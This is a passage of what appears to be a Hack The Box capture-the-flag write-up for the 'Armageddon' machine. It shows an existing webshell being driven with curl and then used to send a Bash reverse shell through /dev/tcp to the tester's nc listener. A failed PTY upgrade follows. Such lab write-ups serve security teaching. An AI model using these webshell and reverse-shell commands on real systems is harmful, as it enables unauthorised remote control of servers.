 

The prompt works like a shell:



    armageddon.htb>> id
    uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0



The last line before the prompt suggests it just has a webshell running.
It works too:



    oxdf@parrot$ curl 'http://10.10.10.233/shell.php' -d 'c=id'
    uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0



### Shell

To get a shell, I triggered the same webshell with a Bash reverse shell:



    oxdf@parrot$ curl -G --data-urlencode "c=bash -i >& /dev/tcp/10.10.14.7/443 0>&1" 'http://10.10.10.233/shell.php'



`curl` hangs, but at my listening `nc`:



    oxdf@parrot$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.7] from (UNKNOWN) [10.10.10.233] 36008
    bash: no job control in this shell
    bash-4.2$ id
    id
    uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0



I tried to do the shell upgrade, but it complains about being out of PTY
devices:



    bash-4.2$ python3 -c 'import pty;pty.spawn("bash")'
    Traceback (most recent call last):
      File "<string>", line 1, in <module>
      File "/usr/lib64/python3.6/pty.py", line 154, in spawn
        pid, master_fd = fork()
      File "/usr/lib64/python3.6/pty.py", line 96, in fork
        master_fd, slave_fd = openpty()
      File "/usr/lib64/python3.6/pty.py", line 29, in openpty
        master_fd, slave_name = _open_terminal()
      File "/usr/lib64/python3.6/pty.py", line 59, in _open_terminal
        raise OSError('out of pty devices')
    OSError: out of pty devices
